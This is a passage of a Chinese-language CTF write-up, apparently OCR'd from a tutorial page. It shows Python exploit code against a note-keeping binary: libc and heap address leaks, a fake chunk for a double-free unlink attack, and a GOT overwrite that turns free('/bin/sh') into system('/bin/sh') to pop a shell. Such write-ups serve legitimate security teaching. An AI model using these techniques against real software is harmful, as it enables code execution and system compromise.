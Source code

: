```
delete_note(1)
delete_note(0)

system_sh_addr = leaklibcaddr - 0x3724a8
print "system_sh_addr: " + hex(system_sh_addr)
binsh_addr = leaklibcaddr - 0x23e7f1
print "binsh_addr: " + hex(binsh_addr)
```

同样的如果让某个非使用中 chunk 的fd栏位指向另一个 chunk，并且让note的内容刚好接上，就可以把 chunk在堆上的位置给洩漏出来。这样我们就能得到堆的基址。

```
#!python
notelen=0x10    

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)  

new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
leak = p.recvuntil("\n")    

print leak[0:-1].encode('hex')
leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leakheapaddr) 

delete_note(0)
delete_note(1)
delete_note(3)  

notelen = 0x80  

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)   

delete_note(2)
delete_note(1)
delete_note(0)
```

通过泄露的libc地址我们可以计算出`system()`函数和`"/bin/sh"`字符串在内存中的地址，通过泄露的堆的地址我们能得到note table的地址。然后我们构造一个假的note，利用使用double free的漏洞触发unlink，将note0的位置指向note table的地址。随后我们就可以通过编辑note0来编辑note table了。通过编辑note table我们把note0指向`free()`函数在got表中的地址，把note1指向`"/bin/sh"`在内存中的地址。然后我们编辑note0把`free()`函数在got表中的地址改为`system()`的地址。最后我们执行delete note1操作。因为我们把note1的地址指向了`"/bin/sh"`，所以正常情况下程序会执行`free("/bin/sh")`，但别忘了我们修改了got表中free的地址，所以程序会执行`system("/bin/sh")`，最终达到了我们的目的：

```
#!python
fd = leakheapaddr - 0x1808 #notetable
bk = fd + 0x8   

payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)  

new_note(payload)   

delete_note(1)  
```